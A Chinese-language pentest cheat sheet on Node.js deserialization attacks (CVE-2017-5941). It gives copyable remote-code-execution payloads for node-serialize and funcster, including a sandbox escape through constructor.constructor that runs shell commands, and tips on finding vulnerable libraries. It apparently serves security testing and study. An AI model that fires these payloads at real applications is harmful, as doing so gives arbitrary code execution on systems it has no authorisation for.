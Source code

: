 # 节点反序列化

> Node.js 反序列化是指从序列化格式（如 JSON、BSON 或其他表示结构化数据的格式）重建 JavaScript 对象的过程。在 Node.js 应用程序中，序列化和反序列化通常用于数据存储、缓存和进程间通信。

## 概述

* [方法论](#方法论)
    * [node-serialize](#node-serialize)
    * [funcster](#funcster)
* [参考文献](#参考文献)

## 方法论

* 在 Node 源代码中查找以下内容：

    * `node-serialize`
    * `serialize-to-js`
    * `funcster`

### node-serialize

> 在 Node.js 的 node-serialize 包 0.0.4 中发现了一个问题。通过向 `unserialize()` 函数传递不受信任的数据，可以利用一个带有立即执行函数表达式（IIFE）的 JavaScript 对象来实现任意代码执行。

1. 生成序列化的有效负载

    ```js
    var y = {
        rce : function(){
            require('child_process').exec('ls /', function(error,
            stdout, stderr) { console.log(stdout) });
        },
    }
    var serialize = require('node-serialize');
    console.log("Serialized: \n" + serialize.serialize(y));
    ```

2. 添加括号 `()` 强制执行

    ```js
    {"rce":"_$$ND_FUNC$$_function(){require('child_process').exec('ls /', function(error,stdout, stderr) { console.log(stdout) });}()"}
    ```

3. 发送有效负载

### funcster

```js
{"rce":{"__js_function":"function(){CMD=\"cmd /c calc\";const process = this.constructor.constructor('return this.process')();process.mainModule.require('child_process').exec(CMD,function(error,stdout,stderr){console.log(stdout)});}()"}}
```

## 参考文献

* [CVE-2017-5941 - 国家漏洞数据库 - 2017 年 2 月 9 日](https://nvd.nist.gov/vuln/detail/CVE-2017-5941)
* [利用 Node.js 反序列化漏洞进行远程代码执行 (CVE-2017-5941) - Ajin Abraham - 2018 年 10 月 31 日](https://www.exploit-db.com/docs/english/41289-exploiting-node.js-deserialization-bug-for-remote-code-execution.pdf)
* [NodeJS 反序列化 - gonczor - 2020 年 1 月 8 日](https://blacksheephacks.pl/nodejs-deserialization/)